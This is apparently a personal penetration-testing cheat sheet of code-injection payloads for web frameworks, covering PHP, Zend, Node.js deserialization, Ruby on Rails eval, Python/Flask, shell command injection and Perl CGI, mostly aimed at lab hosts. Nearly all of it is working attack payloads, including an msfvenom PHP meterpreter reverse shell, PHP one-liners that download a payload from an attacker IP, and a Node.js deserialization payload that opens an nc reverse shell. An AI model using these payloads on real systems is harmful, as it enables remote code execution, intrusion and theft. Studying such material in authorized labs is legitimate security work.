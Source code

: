 # Web apps Frameworks exploit










=============================================================
## php

### echo, print
Add a .system('ls'). in an echo $GET['name']
````
bob".system('ls')."bob
````
http://ptl-41df0d58-5b5fffd3.libcurl.so/?name=hacker”.system(‘ls’).”bob



### preg_replace()
php can filter thanks to preg_replace(). /e flag can be used.
Use arg in evaluation function
echo preg_replace("/([a-z]*)", "hacker", “you are a lamer’); => you are a hacker
echo preg_replace("/([a-z]*)/e", "hacker", “you are a lamer’); => eval “hacker”, replace hacker by system(‘ls’)
http://ptl-d47b409d-42207d73.libcurl.so/?new=system(‘ls’)&pattern=/lamer/e&base=Hello lamer

Use arg in assert
http://ptl-ac7d180e-5efc435d.libcurl.so/?name=hacker’.system(‘ls’).’ //


### Php payloads

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.168 LPORT=443 R > revshell.php

    <?php echo (`whoami`); ?>
    <?php echo (`ls -l /tmp/`); ?>
    <?php echo `ifconfig`; ?>
    <?php echo `wget -O /upload/directory/payload.php http://192.168.168.168/blackwinter.php`; ?>
    <?php echo shell_exec("fetch -o /upload/directory/payload.php http://192.168.168.168/blackwinter.php"); ?>


=============================================================
## php zend framework

    ?order=id;}//
    ?order=id);}//
    ?order=id));}//
    Try to find the correct number of ) and }

    Then ?order=id);}system('uname%20-a');//


=============================================================
## Node JS

### JavaScript DeSerialisation
    Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
    Decode Base64
    {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

    Explications : https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
& Mega JS payload


    On test avec un ping 
    {"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('ping 10.10.14.18', function(error, stdout, stderr) { console.log(stdout) }); }()", "username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
    # tcpdump -i tun0 icmp

    Payload avec un reverse shell
    {"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) }); }()", "username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}


=============================================================
## Perl
```
# perl -e 'system("ls")'
```

## Sonar risks

https://rules.sonarsource.com/php/RSPEC-3331

=============================================================

## Ruby on rail

https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheatsheet.html

### eval

ActiveRecord (Ruby-on-Rails' most common data mapper)
Function eval with param. Add an error with "
````
POST: user[name]=bob&user[password]=pwd&user[admin]=true
@message = eval "\"Hello "+params['username']+"\""
username=hacker”+`uname -a`+” : échapper les + en %2B
http://ptl-f3335912-d8dff103.libcurl.so/?username=hacker%22%2B`uname%20-a`%2B%22
````


=============================================================

## python
### print()
Check with " or '
````
Check :
http://vuln.com/hello/hacker” should generate error

Is python ? hacker”+str(True)+”test
http://vuln.com/hello/hacker"+str(True)+"test

Put code in str()
http://vuln.com/hello/hacker%22%2bstr(os.system('id'))%2b%22test

To get stdout, use os.popen('id').read()
http://vuln.com/hello/hacker%22%2bstr(os.popen('id').read())%2b%22test

If os is not loaded
http://vuln.com/hello/hacker%22%2bstr(__import__('os').popen('id').read())%2b%22test

Flask framework filter / after main path, encode it in base64
uname -a => __import__('base64').b64decode('dW5hbWUgLWE=')

http://ptl-7fc82aee-40987409.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode(%22dW5hbWUgLWE=%22)).read())%2b%22test

Note :
+ %2b
" %22

````


=============================================================

## Apache .htaccess

Upload a crafted .htacess : https://github.com/wireghoul/htshells


=============================================================
## shell 

### Add a command with ;
thanks to php exec
http://ptl-e178378e-fe879fa4.libcurl.so/?ip=127.0.0.1;ls

### Execute with back quote
````
http://ptl-4938c1df-399c9d4e.libcurl.so/?ip=`cmd`  : no output but cmd executed :)
=> ping -c 2 `cmd`
````

### $(command) to run a shell command.
````
http://ptl-836d9020-8f3b7b55.libcurl.so/?ip=$(touch /tmp/bob)
=> ping -c 2 $(touch /tmp/bob)
````


## cgi in perl called by jquery
$.getJSON("/cgi-bin/hello?name="+document.location.hash.substring(1), function (data) {
http://ptl-f2dc2643-c482a93d.libcurl.so//cgi-bin/hello?name=bob%27.`uname`.%27



